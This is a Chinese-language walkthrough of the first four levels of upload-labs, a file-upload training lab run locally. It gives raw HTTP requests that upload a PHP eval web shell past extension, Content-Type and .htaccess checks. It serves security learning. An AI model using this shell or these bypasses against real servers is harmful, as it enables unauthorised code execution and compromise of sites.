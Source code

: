 ```yaml
---
title: "upload-labs"
weight: 4
bookToc: true
---
```


## 环境

使用Docker快速搭建`upload labs`靶场环境，[https://github.com/c0ny1/upload-labs](https://github.com/c0ny1/upload-labs)
```bash
docker run -dt --name upload-labs -p 50070:80 cuer/upload-labs
```

部署完后访问[http://localhost:50070/](http://localhost:50070/)

本文只记录关键思路，不详细记录操作过程

文件上传的目的是，上传php脚本文件，并触发脚本的执行

## Pass-01

Burp抓包修改filename后缀
```
Connection: close

------WebKitFormBoundaryyBB7ysZsoRXuZa0z
Content-Disposition: form-data; name="upload_file"; filename="eval.php"
Content-Type: image/jpeg

<?php @eval($_GET['shell']);?>

------WebKitFormBoundaryyBB7ysZsoRXuZa0z
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryyBB7ysZsoRXuZa0z--
```

## Pass-02

Burp抓包修改filename后缀，注意Content-Type为`image/jpeg`等
```
Connection: close

------WebKitFormBoundary6AD8rNZJAAJibnyU
Content-Disposition: form-data; name="upload_file"; filename="eval.php"
Content-Type: application/octet-stream

<?php @eval($_GET['shell']);?>

------WebKitFormBoundary6AD8rNZJAAJibnyU
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundary6AD8rNZJAAJibnyU--

提示：文件类型不正确，请重新上传！
```

```
Connection: close

------WebKitFormBoundary6AD8rNZJAAJibnyU
Content-Disposition: form-data; name="upload_file"; filename="eval.php"
Content-Type: image/jpeg

<?php @eval($_GET['shell']);?>

------WebKitFormBoundary6AD8rNZJAAJibnyU
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundary6AD8rNZJAAJibnyU--
```

## Pass-03

容器部署的先修改一下配置，重启重启
```sh
cd /etc/apache2/conf-available
sed 's|application/x-httpd-php \.php|application/x-httpd-php .php .php5|' docker-php.conf
```

`提示：不允许上传.asp,.aspx,.php,.jsp后缀文件！`，且文件上传后会重命名

```
Connection: close

------WebKitFormBoundary1aTlV7OvLvu82Ety
Content-Disposition: form-data; name="upload_file"; filename="eval.php5"
Content-Type: image/jpeg

<?php @eval($_GET['shell']);?>

------WebKitFormBoundary1aTlV7OvLvu82Ety
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundary1aTlV7OvLvu82Ety--
<img src="../upload/202410180932461191.php5" width="250px" />
```

### Pass-04

发现文件名不会被重命名，结合`.htaccess`使用

```
Connection: close

------WebKitFormBoundaryow4kbFVhhvlSJqVu
Content-Disposition: form-data; name="upload_file"; filename="eval.jpg"
Content-Type: image/jpeg

<?php @eval($_GET['shell']);?>

------WebKitFormBoundaryow4kbFVhhvlSJqVu
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryow4kbFVhhvlSJqVu--

<img src="../upload/eval.jpg" width="250px" />
```

```
Connection: close

------WebKitFormBoundaryow4kbFVhhvlSJqVu
Content-Disposition: form-data; name="upload_file"; filename=".htaccess"
Content-Type: image/jpeg

AddType application/x-httpd-php .jpg

------WebKitFormBoundaryow4kbFVhhvlSJqVu
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryow4kbFVhhvlSJqVu--

<img src="../upload/.htaccess" width="250px" />
```
